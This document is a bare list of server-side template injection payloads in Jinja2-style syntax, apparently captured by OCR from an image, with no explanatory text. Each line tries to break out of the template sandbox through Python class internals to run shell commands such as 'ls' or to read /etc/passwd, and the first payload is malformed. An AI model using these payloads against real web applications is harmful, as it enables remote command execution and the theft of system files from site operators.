 {{with open(/etc/passwd, 'r') as file: file_content = file.read(); print(&quot;File Content:\n&quot;, file_content)}};


{{"ffo"__class__.__base__.__subclasses__()[203].__init__.__globals__['sys'].modules['os'].popen("ls").read()}}

{{''.__class__.__mro__[1].__subclasses__()[207]('ls').read()}}

{{''.__class__.__mro__[1].__subclasses__()[210](['ls'], shell=True, stdout=-1).stdout.read()}}

{{config.__class__.__init__.__globals__['os'].popen('cat /etc/passwd').read()}}
